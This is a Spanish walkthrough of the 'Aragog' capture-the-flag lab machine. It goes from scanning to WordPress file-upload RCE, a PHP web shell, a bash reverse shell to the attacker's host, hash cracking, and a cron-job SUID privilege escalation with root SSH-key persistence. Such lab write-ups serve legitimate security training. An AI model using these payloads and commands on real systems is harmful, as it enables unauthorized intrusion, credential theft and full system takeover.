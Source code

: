 ```yaml
---
title: "1. Aragog"
description: "Detalla la explotación de una vulnerabilidad en Wordpress para obtener una shell inversa y la escalada de privilegios abusando de una tarea cron y descifrando una contraseña de la base de datos."
pubDate: 2025-05-20
---
```




# Fase de reconocimiento

## Identificamos la maquina

````
arp-scan -I ens33 --localnet
````

## Creamos directorios de trabajo

## Buscamos puertos abiertos

````
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <ip1> -oG allPorts
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240419171219.png)

## Reconocimiento de servicios

````
nmap -sCV -p<puertos> <ip1> -oN targeted
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240419172046.png)
![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240419172332.png)

## Buscar tecnologías usadas en la web

````
whatweb http://<ip1>
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240419172801.png)

## Enumeración directorios por fuerza bruta

````
gobuster dir -u http://<ip1>/ -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -x html,php,txt
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240419173821.png)

## Añadimos los DNS para que cargue bien la pagina

En /etc/hosts
![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240419174145.png)

# Fase de Explotación

Como podemos observar con Wappalyzer nos encontramos ante un Wordpress

## Buscar vulnerabilidades

````
wpscan --url http://<ip1>/blog/ --enumerate u,vp --plugins-detection aggressive    --api-token=<API>
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240419174855.png)
![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240419175004.png)

## Usaremos Unauthenticated Arbitrary File Upload leading to RCE

1. Descargamos la POC del link
1. Creamos el payload.php

````
<?php echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>"; ?>
````

    ![[Pasted image 20240419175408.png]]
    

1. Ejecutamos el exploit con el payload cargado en codigo.

````
pyhton3 exploit.py http://<ip1>/blog/
````

Ya funciona! Se insertan comandos desde ?cmd=
![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240419175945.png)

## Para ganar acceso al sistema (Reverse Shell)

1. Nos ponemos en escucha por el puerto 443

````
nc -nlvp 443
````

2. Mandamos la Reverse Shell

````
?cmd=bash -c "bash -i>%26 /dev/tcp/<ipA>/<port> 0>%261"
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240419180437.png)
\[-\] ==pwned!==

## Ajustar terminal

````
script /dev/null -c bash
````

ctrl + z

````
stty raw -echo; fg
````

````
	reset xterm
````

````
export TERM=xterm
````

Ajustar proporciones

````
stty rows 44 columns 184
````

# Privilege Escalation

## Buscar donde está montado el wordpress

1. Encontramos un apache que nos dice donde está montado
1. Abrimos wp-config.php en busca de credenciales
1. Encontramos que llama al archivo config.default.php
1. ![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240419192906.png)

## Login en la BBDD

````
mysql -uroot -p
````

Dentro de la BBDD:

````
show databases;
````

````
use wordpress;
````

````
show tables;
````

````
select * from wp_users;
````

Encontramos una contraseña cifrada

## Crack contraseña

````
john -w:/usr/sahre/wordlists/rockyou.txt <hash>
````

## Enumeramos binarios con permiso del usuario

1. Nos logueamos con la cuenta por ssh con la contraseña crackeada
1. cd /
1. 

````
find \-user <user> 2>/dev/null
````

4. Encontramos un backup.sh , una tarea perteneciente a 'user' que ejecuta root.
4. Modificamos el script

````
chmod u+s /bin/bash
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240419194034.png)
6. Esperas que se ejecute la tarea

````
bash -p
````

\[+\] ==pwned!==

# Pivoting

* Añadimos nuestra clave publica a /root/.ssh/authorized_keys

````
ssh root@<ip1>
````

Next -> [2. Nagini](../2-nagini)

# Resumen Técnicas

WordPress Enumeration + Virtual Hosting  
Using wpscan + API TOKEN for vulnerability discovery in wordpress  
File Manager WordPress Plugin Exploitation - Unauthenticated Arbitrary File Upload leading to RCE  
Uploading a web shell to the server  
Enumerating the Apache web server directory structure  
MYSQL Database Enumeration  
Cracking Hashes + Password reuse  
Abusing Cron Job (Privilege Escalation)  
EXTRA: Creation of bash script to discover computers on the internal network  
EXTRA: Creation of a bash script to discover the open ports of the computers discovered in the internal network

